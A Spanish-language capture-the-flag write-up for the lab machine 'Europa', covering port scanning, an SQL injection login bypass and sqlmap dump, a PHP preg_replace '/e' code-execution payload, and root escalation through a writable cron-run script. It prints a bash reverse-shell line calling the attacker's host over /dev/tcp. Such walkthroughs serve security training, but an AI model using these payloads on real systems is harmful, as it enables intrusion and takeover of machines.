 # Europa

Nuestro escaneo inicial nos muestra 3 puertos: 22, 80, 443.

```jsx
# Nmap 7.80 scan initiated Sat Oct 17 10:42:59 2020 as: nmap -sC -sV 10.10.10.22
Nmap scan report for 10.10.10.22
Host is up, received echo-reply ttl 63 (1.6s latency).
Scanned at 2020-10-17 10:42:59 -04 for 24s

PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCh1/OK73CDKnJigk6uMUzDLSQhCHSpt9xL+SJrizWdCa7edGviU3NU/8So5xOOgzV1k8u3qHsudNnTSiH8Ek9d2c48B3xYHZn5+nPDv22fZ82LIRKd5qSLhthk91bL3uV+/CURpOZshvo0bVPS48UQaw5r7pWTE0goB+qyG2csY7hr3+9C7Sx4L/Vx7MOFuGAoy/EnpHG10f12ZJ6IVrX8mMEyZGb3Bh7crRN8tQ2RAvnJxyj+1ZeDo7Vr2F75r//dEL2iQ4S2Iuz8BocjQMREyIguIOSOJxjc/L52TpioRHnNK/aEArT02uakB4jRyd5LTSsijjitgUlAk/3H2cYd
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEqrLpdz7aDIUDy3bslqFlbGCrL4Q6tQmesbTP73F/Rv0GO6bb3zHETnZwVB5AKes/pQdRrbDlQCtR2v2WsTXsw=
|   256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDE2hVC32u7eNINSvsmSQkbMlUkJ7s0oiG/bxPhwZb/b
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR/emailAddress=admin@europacorp.htb/localityName=Athens/organizationalUnitName=IT
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Issuer: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR/emailAddress=admin@europacorp.htb/localityName=Athens/organizationalUnitName=IT
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-04-19T09:06:22
| Not valid after:  2027-04-17T09:06:22
| MD5:   35d5 1c04 7ae8 0f5c 35a0 bc49 53e5 d085
| SHA-1: ced9 8f01 1228 e35d 83d3 2634 b4c1 ed52 b917 3335
| -----BEGIN CERTIFICATE-----
| MIIFSDCCA7CgAwIBAgIJAPGhMP4FtiTCMA0GCSqGSIb3DQEBCwUAMIGUMQswCQYD
| VQQGEwJHUjEPMA0GA1UECAwGQXR0aWNhMQ8wDQYDVQQHDAZBdGhlbnMxGDAWBgNV
| BAoMD0V1cm9wYUNvcnAgTHRkLjELMAkGA1UECwwCSVQxFzAVBgNVBAMMDmV1cm9w
| YWNvcnAuaHRiMSMwIQYJKoZIhvcNAQkBFhRhZG1pbkBldXJvcGFjb3JwLmh0YjAe
| Fw0xNzA0MTkwOTA2MjJaFw0yNzA0MTcwOTA2MjJaMIGUMQswCQYDVQQGEwJHUjEP
| MA0GA1UECAwGQXR0aWNhMQ8wDQYDVQQHDAZBdGhlbnMxGDAWBgNVBAoMD0V1cm9w
| YUNvcnAgTHRkLjELMAkGA1UECwwCSVQxFzAVBgNVBAMMDmV1cm9wYWNvcnAuaHRi
| MSMwIQYJKoZIhvcNAQkBFhRhZG1pbkBldXJvcGFjb3JwLmh0YjCCAaIwDQYJKoZI
| hvcNAQEBBQADggGPADCCAYoCggGBAKzVzRrrM1MSWnf8zniIPKt0SXGDB2msYUm3
| rQJ3j31wPfn9xJOWeIpBCIbtXkRqO3XGrLjG/M0Slp3sa/lQ+1dk8aupaudrJvCm
| ITzLnGvtzrtyDlPkozH2wqM+tJx351gKhfrdF81TItS8oe3yskPW3MvEDbi5lPQM
| OVZk4dhFT4l94E1zrRoapU9fqNL66BdEzeEdS6XwntdARBrEyEoCp7nFIGMBKSIn
| JzxIh2VS98ybxkw58QcDEG9ClDH49nglkKmQfAevGKil8f1f9NYRwW3YOCvuzAA7
| Osg+pLEp4de6MEf408+AOhxl4CvgZKYWvmu7b+OSrFDN8cHFy/bQ2fvrjXNazjA0
| 9FIj4wivJ7JgJOCdXEianNZkvLzqPXGS/dVUrFF5fzyG0z5xOTvABZp86fNa3yNu
| zLb04h3j04SvfJ+T3CzkZDWVsFvOYdKsce600S/iaUoqE7XQH6QPB54ba5ailVtH
| npmV1uVqVxT7tXAs0ztIDpqzJ0XAnwIDAQABo4GaMIGXMB0GA1UdDgQWBBSdw09g
| /iRsaKt8R137PRpTAfuTgTA6BgNVHREEMzAxghJ3d3cuZXVyb3BhY29ycC5odGKC
| G2FkbWluLXBvcnRhbC5ldXJvcGFjb3JwLmh0YjAfBgNVHSMEGDAWgBSdw09g/iRs
| aKt8R137PRpTAfuTgTAMBgNVHRMEBTADAQH/MAsGA1UdDwQEAwIFoDANBgkqhkiG
| 9w0BAQsFAAOCAYEAbv2ccFD/d2ovr3dkIqL1m2Qo3AgMObUaBczB37KDsB0w6lzf
| EOM/aBVth8LarblnVUJE0tk8Io7VBcTP9hF2nt3BuSM0mF6yMY3WRY+23JJpNxSO
| nOrZ1xLB7a6XTwSTWD0kg2bRbjSbiEWaUzY/RrqtCF1NThgyXo0wuMWPpPICmbd/
| 5ID8iOH+rmR3nR4fP80J38SUmvrsXAmifbsbKaKHspNMclQ2Idfiyv53xAoFrJzV
| cuxHKyBxYn8A5DPRIhbesLF2NAy0d4aziNeVgGQnSA9cV9RhN454nuzwqKb33BlF
| L8cpG59w3xR8RuyTyZql4uBPZtogzh0pc0PyxX2E2O5nbn85aqYDkVW7aUkeiU69
| LAiIp8s6Z+Rhe2rN4RAudtMcWaMTwjBOb1k1UrJ+0T7Av3O5nJk5kd/Ee5LUD2jX
| wE9Q72WLg1HP/PSSJPsNASSAW4OWSYG1CqLIhfRk5wJtfi6oR9VO+CpajWvqB0Ej
| PTXIrDgdEK1VKan9
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 17 10:43:23 2020 -- 1 IP address (1 host up) scanned in 24.84 seconds
```

El resultado nos muestra 2 entradas interesantes `www.europacorp.htb` y `admin-portal.europacorp.htb`. Procedemos a añadir ambas  en `/etc/hosts`

Cuando intentamos acceder a estos hosts mediante el puerto 80 nos tocamos con la página por defecto de apache. Entonces intentamos acceder al puerto 443 y nos encontramos con un login al momento de acceder el subdominio de `admin-portal`

![Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled.png](Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled.png)

## Obteniendo RCE

Podemos probar rápidamente si hay SQLi con varios payloads y combinaciones de credenciales. Como nos pide un correo en vez de simplemente un usuario, por eso intentamos darle con `admin@europacorp.htb`  y vemos que comentando el resto del query colocando lo siguiente como email`admin@europacorp.htb' #`   podemos hacer bypass del login

También podemos intentar con SQLmap para confirmar posibles casos de inyección (cosa que ya hemos hecho manualmente) y dumpear el resto de la base de datos. Esto lo hacemos con el siguiente comando:

```bash
sqlmap -u [https://admin-portal.europacorp.htb/login.php](https://admin-portal.europacorp.htb/login.php) --form --batch --dump
```

Luego de correr sqlmap para asistirnos en la inyección obtenemos la siguiente información de la base de datos.

![Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled%201.png](Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled%201.png)

Una vez obtenemos los hashes observamos que son idénticos y que contienen 32 caracteres de longitud. Procedemos a verificarlos en [hashes.com](http://hashes.com) para confirmar si obtenemos su resultado en texto plano. Y obtenemos un resultado válido.

![Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled%202.png](Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled%202.png)

Estas credenciales quizá nos sirvan para ser usadas una vez tengamos ejecución de comandos de manera arbitratia en la máquina, pero por ahora procedemos a examinar el site.

![Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled%203.png](Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled%203.png)

Si vamos a la opción de Tools nos encontramos con un generador de configuraciones de OpenVPN

![Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled%204.png](Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled%204.png)

En primera instancia pensé en obtener una reverse shell abusando la funcionalidad de OpenVPN mediante el parámetro up. Debajo está un artículo explicando cómo esto puede ser ejecutado.

[Reverse Shell from an OpenVPN Configuration File](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da)

Pero no funcionó con el propósito que esperaba. 

Luego de esto empecé a examinar los requests que se mandaban al site y a analizar la funcionalidad del generador. Vemos que remplaza lo que sea que le pasemos como parametro de IP dentro de la configuración y revisando uno de los requests que se han capturado vemos el parametro "pattern". 

Luego de googlear (literalmente) "php pattern exploit", encontramos este site [http://www.madirish.net/402](http://www.madirish.net/402) que nos brinda la idea de usar  `/^(.*)/e` como pattern y  luego pasarle el string de `"system('CMD')"` . En este caso colocamos nuestro payload en el archivo `[reverse.sh](http://reverse.sh)` y lo servimos mediante el módulo de http.server en python `python3 -m http.server 80`

```bash
$ cat reverse.sh 
/bin/bash -c "/bin/bash -i >& /dev/tcp/{ip}/{port} 0>&1"
```

Interceptamos el request y añadimos nuestro payload para obtener el script `[reverse.sh](http://reverse.sh)` y ejecutarlo, recordando darle codificación de URL

![Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled%205.png](Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled%205.png)

Revisamos nuestro listener y confirmamos que tenemos una reverse shell!

Procedemos a mejorarla solamente con `python3 -c 'import pty;pty.spawn("/bin/bash")'`
ya que la hemos capturado con `rlwrap`. A pesar de que somos www-data podemos leer la flag de user. Esta se encuentra en /home/john/user.txt.

## Consigamos ser root

Examinando los directorios del usuario www-data encontramos uno particular que nos llama la atención y a su vez un archivo muy particular.

![Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled%206.png](Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled%206.png)

Aquí vemos el contenido del archivo `clearlogs`

```bash
$ cat clearlogs
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```

Asumiendo por el nombre del directorio (cronjobs), hay una tarea programada a ejecutarse para limpiar los logs del site, pero a su vez este ejecuta un archivo llamado `[logcleared.sh](http://logcleared.sh)`.  Tenemos permiso de escritura en la ruta en el cual se encuentra el archivo por lo cual procedemos a colocar el siguiente payload para confirmar si podemos obtener una reverse shell como root .

Podemos usar el mismo `[reverse.sh](http://reverse.sh)` para obtener la shell como root. Solo tenemos que moverlo a la ruta y renombrarlo

```bash
$ mv reverse.sh logcleared.sh
```

Luego de unos minutos, revisamos nuestro listener y....

![Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled%207.png](Europa%20d794c8c2e323416cb3555479d3f5840c/Untitled%207.png)

Somos root!